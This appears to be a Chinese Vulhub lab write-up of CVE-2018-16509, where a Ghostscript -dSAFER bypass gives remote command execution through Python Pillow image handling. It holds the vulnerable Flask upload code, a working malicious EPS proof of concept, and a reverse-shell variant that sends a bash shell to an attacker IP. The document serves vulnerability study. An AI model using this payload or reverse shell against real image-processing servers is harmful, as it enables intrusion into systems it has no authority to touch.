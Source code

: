 # Python PIL 远程命令执行漏洞 CVE-2018-16509

## 漏洞描述

通过 Ghostscript CVE-2018-16509 执行 Python PIL/Pillow 远程 Shell 命令。

Ghostscript 是一套基于 Adobe、PostScript 及可移植文档格式（PDF）的页面描述语言等而编译成的免费软件。Ghostscript 常常作为另一个软件（例如 ImageMagick）的依赖项安装在生产服务器中（例如`/usr/local/bin/gs`，或`/usr/bin/gs`) 。

CVE-2018-16509漏洞允许在 v9.24 之前的 Ghostscript 中通过-dSAFER 实现绕过，通过处理 PostScript 中的失败恢复 (grestore) 来执行任意命令，禁用 LockSafetyParams ，避免无效访问。

此漏洞存在于 ImageMagick 等库或带有 Ghotscript 的编程语言中的图像库（本例中为 PIL/Pillow）中。

## 环境搭建

Vulhub运行环境：

```
docker-compose up -d
```

运行后，访问`http://your-ip:8000/`即可看到一个上传页面。

## 漏洞分析

可以通过上传[rce.jpg](https://github.com/vulhub/vulhub/blob/master/python/PIL-CVE-2018-16509/rce.jpg) （一个EPS图像，并不是一个真正的JPG）来在服务器中执行命令`touch /tmp/got_rce`。

通过命令`docker container ls`获取容器ID。

如果想执行其他命令，可以在rce.jpg中修改命令`touch /tmp/got_rce`为任意其他命令。

可以参考 Tavis Ormandy 在[oss-security](https://seclists.org/oss-sec/2018/q3/142)中对漏洞的解释。

可以在[EPSImagePlugin.py](https://github.com/python-pillow/Pillow/blob/0adeb82e9886cdedb3917e8ddfaf46f69556a991/src/PIL/EpsImagePlugin.py)中查看PIL/Pillow中Ghostscript的源代码。

易受攻击的代码如下，例如app.py：

```python
@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        file = request.files.get('image', None)

        if not file:
            flash('No image found')
            return redirect(request.url)

        filename = file.filename
        ext = path.splitext(filename)[1]

        if (ext not in ['.jpg', '.jpeg', '.png', '.gif', '.bmp']):
            flash('Invalid extension')
            return redirect(request.url)

        tmp = tempfile.mktemp("test")
        img_path = "{}.{}".format(tmp, ext)

        file.save(img_path)

        img = Image.open(img_path)
        w, h = img.size
        ratio = 256.0 / max(w, h)

        resized_img = img.resize((int(w * ratio), int(h * ratio)))
        resized_img.save(img_path)
```

上传文件将通过`img = Image.open(img_path)`加载。PIL将自动检测图片是否为EPS图片（例如，文件头为`%!PS-Adobe-3.0 EPSF-3.0`）。随后，将调用EpsImageFile类EPSImagePlugin.py文件中的`_open()`函数。

为了避免触发错误`raise IOError("cannot determine EPS bounding box")`，文件中将加入边界框信息（例如，`%%BoundingBox: -0 -0 100 100`）。

EPS图像将被EPSImagePlugin.py文件中的`Ghostscript`函数的`subprocess`进行处理：

```python
    # Build Ghostscript command
    command = ["gs",
               "-q",                         # quiet mode
               "-g%dx%d" % size,             # set output geometry (pixels)
               "-r%fx%f" % res,              # set input DPI (dots per inch)
               "-dBATCH",                    # exit after processing
               "-dNOPAUSE",                  # don't pause between pages
               "-dSAFER",                    # safe mode
               "-sDEVICE=ppmraw",            # ppm driver
               "-sOutputFile=%s" % outfile,  # output file
               "-c", "%d %d translate" % (-bbox[0], -bbox[1]),
                                             # adjust for image origin
               "-f", infile,                 # input file
               "-c", "showpage",             # showpage (see: https://bugs.ghostscript.com/show_bug.cgi?id=698272)
               ]


    ....

    try:
        with open(os.devnull, 'w+b') as devnull:
            startupinfo = None
            if sys.platform.startswith('win'):
                startupinfo = subprocess.STARTUPINFO()
                startupinfo.dwFlags |= subprocess.STARTF_USESHOWWINDOW
            subprocess.check_call(command, stdin=devnull, stdout=devnull,
                                  startupinfo=startupinfo)
```

以上代码将在Image.py文件中的`load`被调用的时候才会被调用，所以只打开图片不会触发漏洞。` resize`、 `crop`、`rotate`、和 `save` 函数将会调用`load` ，并触发漏洞。

结合 Tavis Ormandy 的 POC，我们可以制作`rce.jpg`，实现远程 shell 命令执行。

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

成功执行命令`touch /tmp/got_rce`：

![image-20220228165944812](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281659859.png)

将`touch /tmp/tmp/got_rce`命令改为反弹shell命令：

```
mark /OutputFile (%pipe%bash -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1") currentdevice putdeviceprops
```

成功接收反弹shell：

![image-20220228170145831](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281701913.png)



